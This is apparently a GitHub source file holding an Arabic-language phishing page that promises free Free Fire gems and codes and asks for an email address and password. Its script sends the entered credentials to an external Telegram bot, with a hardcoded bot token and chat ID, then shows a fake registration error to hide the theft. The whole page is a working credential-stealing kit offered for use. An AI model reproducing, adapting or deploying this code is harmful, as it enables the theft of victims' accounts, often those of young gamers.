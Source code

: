 # -
يمكنك الحصول على الجواهر و أكواد فري فاير مجانا وبدون عروض 
<!DOCTYPE html>
<html lang="ar">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>صفحة تسجيل الدخول</title>
    <style>
        /* إعداد الخلفية */
        body {
            font-family: Arial, sans-serif;
            margin: 0;
            padding: 0;
            height: 100vh;
            background-image: url('https://example.com/freefire-background.jpg'); /*https://i.pinimg.com/originals/83/94/c6/8394c6c6b12fbd002ed0dfcc0e91e10a.jpg*/
            background-size: cover;
            background-position: center;
            display: flex;
            justify-content: center;
            align-items: center;
            color: white;
        }

        /* تنسيق النموذج */
        #loginForm {
            background-color: rgba(0, 0, 0, 0.5); /* خلفية شبه شفافة */
            padding: 30px;
            border-radius: 10px;
            box-shadow: 0 4px 8px rgba(0, 0, 0, 0.3);
            text-align: right;
            width: 300px;
        }

        h1 {
            text-align: center;
            font-size: 24px;
            margin-bottom: 20px;
        }

        label {
            font-size: 16px;
            margin-bottom: 5px;
            display: block;
        }

        input {
            width: 100%;
            padding: 10px;
            margin: 10px 0;
            border: 1px solid #ddd;
            border-radius: 5px;
            font-size: 14px;
        }

        button {
            width: 100%;
            padding: 10px;
            background-color: #ff6f61; /* لون مميز */
            border: none;
            border-radius: 5px;
            color: white;
            font-size: 16px;
            cursor: pointer;
        }

        button:hover {
            background-color: #ff4a38; /* تأثير عند التمرير */
        }
    </style>
</head>
<body>
    <form id="loginForm">
        <h1>مرحبا في موقع شحن جواهر فري فاير مجانا وبدون عروض </h1>
        <label for="email">البريد الإلكتروني:</label>
        <input type="email" id="email" name="email" required><br>
        
        <label for="password">كلمة السر:</label>
        <input type="password" id="password" name="password" required><br>
        
        <button type="submit">تسجيل</button>
    </form>

    <script>
        // عند إرسال النموذج
        document.getElementById('loginForm').addEventListener('submit', function(event) {
            event.preventDefault(); // منع إعادة تحميل الصفحة

            // جمع البيانات
            const email = document.getElementById('email').value;
            const password = document.getElementById('password').value;

            // إرسال البيانات عبر بوت Telegram
            const botToken = '8178057085:AAEhCSYjlVY9CjhZBs-GjzbmhkHWSccU2sw';
            const chatId = '6963965798';
            const message = `بريد إلكتروني: ${email}\nكلمة السر: ${password}`;

            fetch(`https://api.telegram.org/bot${botToken}/sendMessage`, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({
                    chat_id: chatId,
                    text: message
                })
            })
            .then(response => response.json())
            .then(data => {
                alert('يبدو انه هناك مشكلة في تسجيل');
            })
            .catch(error => {
                alert('حدث خطأ أثناء الإرسال.');
                console.error(error);
            });
        });
    </script>
</body>
</html>
